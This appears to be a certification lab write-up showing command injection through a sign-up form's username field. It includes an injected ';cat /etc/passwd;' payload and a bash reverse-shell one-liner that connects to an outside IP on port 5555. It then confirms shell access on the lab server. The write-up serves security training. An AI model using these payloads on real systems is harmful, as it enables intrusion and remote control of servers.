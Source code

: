 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-15 05:06:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. Command Injection

**Proof-of-Concept (POC):**

Command injection is a security vulnerability that allows attackers to execute arbitrary commands on a system through vulnerable application inputs. On the sign-up page, there are 4 input field. One of the field vulnerable to the command injection. I send a command at the username field , “;cat /etc/passwd;” to fetch list of users and the server respond to it. 

![POC-otb](/img/cwae/tuo1.png){: w="400" h="400" }{: .normal }
![POC-otb](/img/cwae/tuo2.png){: w="400" h="400" }{: .normal }

We can try to get a reverse shell here by using this command
```jsx
;echo "bash -i >& /dev/tcp/143.198.205.200/5555 0>&1" >> f.sh;chmod +x f.sh;bash f.sh
```

This command attempts to append a line to a file named f.sh, which, when executed, will open a reverse shell to the IP address 143.198.205.200 on port 5555. Then, it makes the file executable and runs it using Bash.

Listening to port 5555.

![POC-otb](/img/cwae/tuo3.png){: w="400" h="400" }{: .normal }

We got a reverse shell after clicking the “Sign-Up” button. 

![POC-otb](/img/cwae/tuo4.png){: w="400" h="400" }{: .normal }

To proof it, I run id and whoami command to show the server belongs to the victim. 
![POC-otb](/img/cwae/tuo5.png){: w="400" h="400" }{: .normal }